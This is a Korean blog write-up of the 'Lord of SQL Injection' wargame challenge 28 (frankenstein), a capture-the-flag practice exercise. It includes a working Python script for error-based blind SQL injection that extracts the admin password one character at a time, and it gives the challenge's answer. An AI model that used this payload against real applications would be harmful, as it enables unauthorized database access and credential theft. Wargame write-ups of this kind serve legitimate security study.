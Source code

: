 ```yaml
---
title: LOS - 28번 frankenstein
category: Lord of SQL Injection
---
```


# [28] frankenstein

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FTO6uD%2FbtroQcD0xeH%2FVEz0pKlYKuQykNPh1pftgK%2Fimg.png">

## 풀이

[중요!] like 뒷부분의 %를 URL 인코딩한 값인 %25로 적어주어야한다.

```python
import requests

url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php"
cookie = {"PHPSESSID":"2evml88c628kabc2j1vfk63ks9"}

print("🖤 Start SQLi...")

ans = ""
end = False

for i in range(1, 100):
    if(end==True):
        print(f">> There's No Letter {i}")
        break
    end = True
    print(f"🖤 Checking letter {i}...")
    for asc in range(48, 127):
        search = ans+chr(asc)
        payload = f"?pw=' || CASE WHEN id='admin' and pw like '{search}%25' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END %23"
        res = requests.get(url+payload, cookies=cookie)
        if("login_chk" in res.text):
            continue
        elif("error" in res.text):
            print(f">> Letter {i} → {chr(asc)}")
            ans+=chr(asc)
            end = False
            break

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fo9RVC%2FbtroQHcGsn6%2FR3hxUf6mnpVomVdHZmykK1%2Fimg.png">

근데 여기서 끝이 아니었다.

자동화 공격 결과 분명 답은 숫자와 알파벳 **대문자**의 조합으로 나왔건만...

아무리 넣어봐도 안 풀렸다;

당황해서 다른 블로그 글을 찾아봤더니 답은 `0dc4efbb` 였다.

왜 아스키로 검색했는데 대소문자가 반대로 나오는지...

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFN907%2FbtroSuwFci1%2FkHtw4XM9KJHFkbEZAOHw6K%2Fimg.png">